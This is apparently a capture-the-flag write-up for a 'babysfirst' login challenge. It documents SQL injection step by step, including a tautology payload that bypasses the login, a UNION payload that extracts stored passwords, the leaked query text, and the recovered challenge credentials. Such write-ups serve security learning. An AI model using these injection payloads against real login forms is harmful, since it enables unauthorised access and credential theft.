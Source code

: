 # Initial screen  
	babysfirst  
	login  

	Username:  

	Password:  

# Progress  
## Injection 
There is an injection vulnerability in the login form.  
If you put ' or 1=1 -- in as your username and anything as the password it gives you the following screen.  

	babysfirst  
	success!  

	logged in as root  

The query that was executed is returned in the HTTP response headers  

	X-Sql=select name from users where name = '' or 1=1 -- ' and password = '' limit 1;  

Getting a bit further.  You can UNION the query and pull more details.  I think this may take digging into the schemas table and finding all the column names in the users table.  

	root' UNION select password as name from users where name='root' order by name asc --  	
	X-Sql=select name from users where name = 'root' UNION select password as name from users where name='root' order by name asc --' and password = '' limit 1;  

## Users/Passwords  
Using the UNION query the following users/passwords were pulled.  

	root/barking up the wrong tree  
	user/password  


